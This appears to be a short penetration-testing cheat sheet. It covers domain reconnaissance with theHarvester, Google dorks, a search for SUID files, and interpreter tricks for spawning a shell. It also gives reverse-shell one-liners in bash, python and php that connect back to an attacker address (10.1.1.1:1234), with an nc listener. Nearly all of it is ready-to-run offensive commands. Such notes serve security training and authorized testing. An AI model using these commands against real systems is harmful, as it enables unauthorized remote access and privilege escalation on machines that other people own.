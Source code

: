 # theharvester
To collect data from certain search engines
```
theharvester -d example.com -l 500 -b google,bing -f result.html
```
# google dork

site:example.com

cache:example.com

# find files permission for the current user

`find / -perm -u=s -type f 2>/dev/null`

# spawn tty

source https://netsec.ws/?p=337

`python -c 'import pty; pty.spawn("/bin/sh")'`

`echo os.system('/bin/bash')`

`/bin/sh -i`

`perl —e 'exec "/bin/sh";'`

`perl: exec "/bin/sh";`

`ruby: exec "/bin/sh"`

### lua:

`os.execute('/bin/sh')`

### (From within IRB)

`exec "/bin/sh"`

### (From within vi)

`:!bash`

### (From within vi)

`:set shell=/bin/bash:shell`

### (From within nmap)

`!sh`

# Reverse shell

source http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

On the Attacker machine, use nc to open the listening port

`nc -lvp 1234`

On the Vulnerbale Machine do one of the following depending on the programming language

### bash

`bash -i >& /dev/tcp/10.1.1.1/1234 0>&1`


### python

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.1.1.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'`


### php

`php -r '$sock=fsockopen("10.1.1.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
`
